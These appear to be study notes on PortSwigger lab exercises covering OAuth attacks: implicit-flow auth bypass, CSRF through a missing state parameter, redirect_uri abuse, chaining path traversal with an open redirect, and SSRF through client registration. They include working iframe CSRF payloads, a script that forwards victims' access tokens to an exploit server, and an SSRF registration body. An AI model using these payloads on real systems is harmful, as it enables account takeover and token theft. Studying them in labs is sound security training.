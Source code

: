 ![[OAuth.jpg]]
# Recon

- [https://portswigger.net/web-security/oauth#identifying-oauth-authentication](https://portswigger.net/web-security/oauth#identifying-oauth-authentication)
# Auth Bypass via OAuth Implicit Flow

After the client app has received the access token for a user from the OAuth service, it will retrieve information about the user from the OAuth service "user endpoint". The client app will then submit the user's email and access token to their own endpoint for authentication (the access token acts like a traditional password).

However, by changing the email parameter to another user's email, you can log into the app as any arbitrary user, essentially bypassing authentication.

![[OAuth 1.png]]
# CSRF Attack - Missing "State" Parameter

An app is allowing users to attach their social media account to their normal app account. When the clien t app submits the "Authorization Request" to the OAuth Service, the "state" parameter is not included with the request. This behaviour can be used to perform a CSRF like attack.

Go through a normal OAuth workflow and capture the "Authorization Code Grant" request via the Proxy (then drop the request - it will look like this - /oauth-linking?code=xxxx). This request can be used as the CSRF exploit to attack other users and to attach our social media account to their normal app account.

Once the payload is delivered to the victim, log into the app again using the Social Media Login function and you gain access to their account.

An example CSRF Payload (use in exploit server to host it):

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/oauth-linking?code=UNUSED-CODE"></iframe>
```
# CSRF Attack - Missing Validation "redirect_uri" Parameter

The "redirect_uri" parameter is not being validated properly in the "Authorization Request". Create a CSRF exploit that contains this "Authorization Request" along with a "redirect_uri" value to a domain you control.

When the OAuth server sends back the authorization code, it will append it to the domain specified ion the "redirect_uri" and we can check in the exploit server logs to obtain another user's auth code, which can now be submitted to the original "callback" URL of the app and log into their account.

An example CSRF payload:

```html
<iframe src="https://oauth-YOUR-LAB-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

Now, use the stolen auth code within the client app's callback URL:

```html
https://your-lab-id.web-security-academy.net/oauth-callback?code=STOLEN-CODE
```

![[OAuth 2.png]]

# Bypassing Flawed "redirect_uri" Parameter Validation

The OAuth server is not properly validating the "redirect_uri" parameter in the client app's "Authorization Request". The domain cannot be manipulated, however, by using a path traversal vulnerability you can point the "redirect_uri" value to another location within the client's application. 

This other location in the client's app also contains an open redirection vulnerability which can be used to direct the request to an arbitrary domain like the exploit server.

Combining these 2 vulnerabilities along with a CSRF exploit, you can capture an access token (implicit grant flow is used here) that belongs to another user. And use that token to access the victim user's information. The final payload to be hosted in the exploit server:

- This will force the victim user to first visit the malicious URL then a request will be submitted to the exploit server with the access token appended to the request (the access token is sent in fragment -> \#xxxx).
- The "redirect_uri" parameters contains the traversal and open redirection vulnerability location
- Deliver the payload to the victim user and check the exploit server logs for the access token

```html
<script>
    if (!document.location.hash) {
        window.location = 'https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/next?path=https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit/&response_type=token&nonce=399721827&scope=openid%20profile%20email'
    } else {
        window.location = '/?'+document.location.hash.substr(1)
    }
</script>
```
# SSRF via OpenID Dynamic Client Registration

An attacker can dynamically register a client app with the OAuth server. The registration endpoint does not require any authentication. 

There is a request in the app that looks like this, which initiates a request to the endpoint that was specified within the "logo_uri" parameter upon client registration. The contents are returned in the response as well:

- /client/{client-id}/logo

We can register a new client with the OAuth server and specify Collaborator endpoint within the "logo_uri" parameter to identify if an in-band SSRF attack is possible. Since the contents of the request are returned in the response, this is considered an in-band SSRF vulnerability and can be used to retrieve sensitive internal system information.

The following payload was injected in the body of the OAuth's service registration endpoint:

```json
{
    "redirect_uris" : [
        "https://example.com"
    ],
    "logo_uri" : "https://BURP-COLLABORATOR-SUBDOMAIN"
}
```
# Stealing OAuth Access Tokens via a Proxy Page

- Link: [https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page](https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-a-proxy-page)


